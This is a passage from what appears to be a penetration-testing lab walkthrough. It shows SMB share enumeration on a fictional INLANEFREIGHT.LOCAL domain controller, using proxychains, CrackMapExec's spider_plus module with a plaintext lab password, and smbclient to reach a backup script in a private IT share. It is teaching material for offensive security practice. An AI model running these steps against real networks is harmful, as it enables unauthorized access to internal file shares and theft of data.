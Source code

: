 
2022-06-22 10:57:33 -07:00 [Share] {Green}(\\DC01.INLANEFREIGHT.LOCAL\Department Shares)
2022-06-22 10:57:36 -07:00 [Share] {Black}(\\ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL\ADMIN$)
2022-06-22 10:57:36 -07:00 [Share] {Black}(\\ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL\C$)
Press any key to exit.
</code></pre>
<p>This doesn't turn up anything interesting, so let's re-run our share enumeration as the <code>ssmalls</code> user. Users can often have different permissions, so share enumeration should be considered an iterative process. To avoid having to RDP again, we can use the <code>CrackMapExec</code> <a href="https://mpgn.gitbook.io/crackmapexec/smb-protocol/spidering-shares">spider_plus</a> module to dig around.</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86! -M spider_plus --share 'Department Shares'

ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:135-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
SMB         172.16.8.3      445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:INLANEFREIGHT.LOCAL) (signing:True) (SMBv1:False)
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.3:445-&lt;&gt;&lt;&gt;-OK
SMB         172.16.8.3      445    DC01             [+] INLANEFREIGHT.LOCAL\ssmalls:Str0ngpass86! 
SPIDER_P... 172.16.8.3      445    DC01             [*] Started spidering plus with option:
SPIDER_P... 172.16.8.3      445    DC01             [*]        DIR: ['print$']
SPIDER_P... 172.16.8.3      445    DC01             [*]        EXT: ['ico', 'lnk']
SPIDER_P... 172.16.8.3      445    DC01             [*]       SIZE: 51200
SPIDER_P... 172.16.8.3      445    DC01             [*]     OUTPUT: /tmp/cme_spider_plus
</code></pre>
<p>This creates a file for us in our <code>/tmp</code> directory so let's look through it.</p>
<pre><code class="language-shell-session">[!bash!]$ cat 172.16.8.3.json 
{
    "Department Shares": {
        "IT/Private/Development/SQL Express Backup.ps1": {
            "atime_epoch": "2022-06-01 14:34:16",
            "ctime_epoch": "2022-06-01 14:34:16",
            "mtime_epoch": "2022-06-01 14:35:16",
            "size": "3.91 KB"
        }
    },
    "IPC$": {
        "323a2fd620dcf3e3": {
            "atime_epoch": "1600-12-31 19:03:58",
            "ctime_epoch": "1600-12-31 19:03:58",
            "mtime_epoch": "1600-12-31 19:03:58",
            "size": "3 Bytes"
&lt;SNIP&gt;
</code></pre>
<p>The file <code>SQL Express Backup.ps1</code> in the private IT share looks very interesting. Let's download it using <code>smbclient</code>. First, we need to connect.</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains smbclient -U ssmalls '//172.16.8.3/Department Shares' 

